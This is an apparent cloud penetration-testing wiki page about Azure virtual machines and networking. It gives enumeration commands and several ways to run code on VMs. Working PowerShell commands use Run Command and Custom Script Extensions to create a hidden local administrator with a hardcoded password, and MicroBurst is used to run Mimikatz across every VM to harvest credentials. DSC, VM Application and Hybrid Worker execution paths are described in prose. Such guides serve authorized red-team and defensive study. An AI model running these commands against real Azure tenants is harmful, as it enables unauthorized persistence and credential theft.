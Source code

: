 # Az - Virtual Machines & Network

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach_live**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>

## Basic information

[From the docs:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azure virtual machines are one of several types of [on-demand, scalable computing resources](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) that Azure offers. Typically, you choose a virtual machine when you need more control over the computing environment than the other choices offer. This article gives you information about what you should consider before you create a virtual machine, how you create it, and how you manage it.

## Azure Network Information

Azure networks contains **different entities and ways to configure it.** You can find a brief **descriptions,** **examples** and **enumeration** commands of the different Azure network entities in:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** offers a secure, fully managed RDP (Remote Desktop Protocol) and SSH (Secure Shell) access solution over SSL through the Azure portal. It's integrated within an Azure Virtual Network, allowing RDP and SSH connectivity to VMs using private IPs, avoiding the need for public IPs. This makes it a safer, more convenient alternative to traditional methods involving public IP assignments and NSG rule configurations for VM access. Developers and IT personnel can securely access VMs from the Azure portal using their web browsers, streamlining the process for development and testing environments.

To list all Azure Bastion Hosts in your subscription, you can use the following command:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## VM Enumeration

```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```

## **Run commands in a VM**

### **AAD Login in VM**

It's possible to allow access to users authenticated via AzureAD. For example trying to access a **linux VM**: `ssh username@azure-corp.com@1.1.1.1` (it's important to **use the email** with the azurecorp used when trying to login) you could get an error like:

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Just **follow those instructions** going to [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) and indicating the code, use the email and password as credentials and you will be able to connect via SSH (if that user has enough permissions to do so: `Virtual Machine Administrator Login` or `Virtual Machine User Login` role).

### **Run Command**

```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd 
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```

### **Run Custom Script Extension**

Azure virtual machine (VM) extensions are **small applications** that provide post-deployment configuration and automation **tasks** on **Azure VMs**. For example, if a virtual machine requires software installation, antivirus protection, or the ability to run a script inside it, you can use a VM extension.

Therefore, if you have access to write it, you can execute arbitrary code:

```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```

### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) is a PowerShell tool similar to Ansible, used for setting up a host through code. DSC integrates with Azure, allowing the upload of specific configuration files. These files must adhere to a strict syntax. Notably, the DSC extension in Azure can execute commands from files that meet certain formatting criteria, even if the syntax is not correct for DSC standards, as shown in the provided figure.

The execution of these commands is facilitated by the [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) function in Az PowerShell. The requirements include a **.PS1** file with a defined function and the file must be zipped into a **.zip** file. Even though the syntax might not be accurate for DSC, the code will still execute. However, the extension will mark the execution status as "failure," and no output from the command will be visible due to the status being overwritten by the failure message.

### VM Application Definitions

VM Application Definitions allow for the repeatable deployment of versioned applications to an Azure VM. This resource supports the deployment and update of applications across VMs. To set this up, several steps are required, involving commands like **`New-AzGalleryApplication`** and **`New-AzGalleryApplicationVersion`** in Az PowerShell.

The execution of applications or commands through this method involves the **"VMAppExtension"**, which is installed automatically when an application is applied to a VM. The extension retrieves the file from the specified URI and names it exactly as the application, without an extension. To execute the file correctly, the "ManageActions" field in the REST API call must be configured to rename the file with the appropriate extension. The setup of this method, once complete, will resemble the structure shown in the provided figure.

However, this method of execution is relatively slow, taking about 3-4 minutes to execute an application or command. The files related to this process are stored in specific directories (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` for the application copy and `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` for the execution status).

Both techniques provide unique ways of executing commands and deploying applications in Azure environments, each with its own set of requirements, steps, and considerations.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) are a feature in Azure that allow Runbooks, configured in an Automation Account, to be executed on an Azure Virtual Machine (VM) that is part of the designated HWG. This execution is facilitated through an extension installed on the VM, which deploys the Runbook code onto the VM. A significant aspect of this process is that the actual credentials are not a factor in execution because the code runs with elevated privileges, specifically as **SYSTEM** or root, as illustrated in the provided figure.

A crucial detail for those utilizing Windows 10 VMs is the necessity to specify the PowerShell version for the Runbook. It should be set to run as PowerShell Version 5.1 instead of 7.1. This requirement stems from the fact that PowerShell 7.1 is not installed by default on these VMs, leading to a failure in script execution if version 7.1 is specified.

This feature of Azure offers a robust method for automating and managing tasks across hybrid environments, allowing for centralized management and execution of tasks on Azure VMs.


## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach_live**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>
